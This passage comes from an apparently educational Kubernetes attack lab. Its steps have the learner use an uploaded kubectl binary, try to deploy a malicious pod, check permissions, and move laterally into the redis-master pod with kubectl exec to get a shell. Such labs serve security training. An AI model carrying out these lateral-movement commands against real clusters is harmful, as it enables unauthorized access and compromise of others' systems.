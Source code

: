 49. Now make the `kubectl` binary we uploaded executable by typing:

    ```shell
    chmod u+x /var/www/html/kubectl
    ```

50. Now try asking the API server what pods exist and what nodes they're staged on by running:

    ```shell
    kubectl get pods -o wide
    ```

51. Let's try seeing if we can stage our own malicious pod into the cluster.  Take a look at the pod definition by running:

    ```shell
    cat attack-pod.yaml
    ```

52. Now try to stage it by running (and observe an error):

    ```shell
    kubectl apply -f attack-pod.yaml
    ```

53. It looks like our account is forbidden to do this.  There are certainly all kinds of other things you could do at this point, but let's see if we can move to another pod. It may have a service account that is allowed to stage pods in the cluster.

54. Run a `kubectl auth can-i` command to investigate what the authorization system allows:

    ```shell
    kubectl auth can-i exec pods
    ```

55. We get back a yes! Let's move laterally to the `redis-master` pod.  Look at your `kubectl get pods` output from earlier -- we need the full name of the `redis-master` pod.  We'll get it automatically with an embedded shell command.

    ```shell
    
    kubectl exec -it \
       $(kubectl get pods | grep redis-master | awk '{print $1}' ) -- /bin/bash
    ```


56. Congratulations! You're now in a second container in the cluster, possibly running on a different node. You will see text that says you're not in a proper TTY.

57. Type `id` to see what user you are.

    ```shell
    id
    ```

58. Type `hostname` to see that you are in fact in the `redis-master` pod.

    ```shell
    hostname
    ```
